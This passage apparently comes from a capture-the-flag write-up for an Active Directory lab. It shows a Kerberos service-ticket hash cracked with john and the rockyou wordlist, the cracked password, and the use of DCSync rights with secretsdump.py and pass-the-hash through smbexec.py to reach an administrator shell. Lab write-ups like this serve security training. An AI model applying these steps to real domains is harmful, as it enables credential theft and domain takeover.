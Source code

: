 After running this, a hash for the user is given to us:

<figure><img src="../../../.gitbook/assets/image (3228).png" alt=""><figcaption></figcaption></figure>

Transfer this to our machine, and we can crack it easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt ticket_hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7       (?)     
1g 0:00:00:04 DONE (2023-05-26 09:48) 0.2331g/s 2603Kp/s 2603Kc/s 2603KC/s Forever3!..Flubb3r
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### DCSync

Earlier, we saw that this user had DCSync privileges over the domain, so we can easily use `secretsdump.py` to dump the administrator hash:

<figure><img src="../../../.gitbook/assets/image (3347).png" alt=""><figcaption></figcaption></figure>

Then, we can use `smbexec.py` to pass the hash and get an administrator shell.

<figure><img src="../../../.gitbook/assets/image (2225).png" alt=""><figcaption></figcaption></figure>

Then we can capture both the flags!
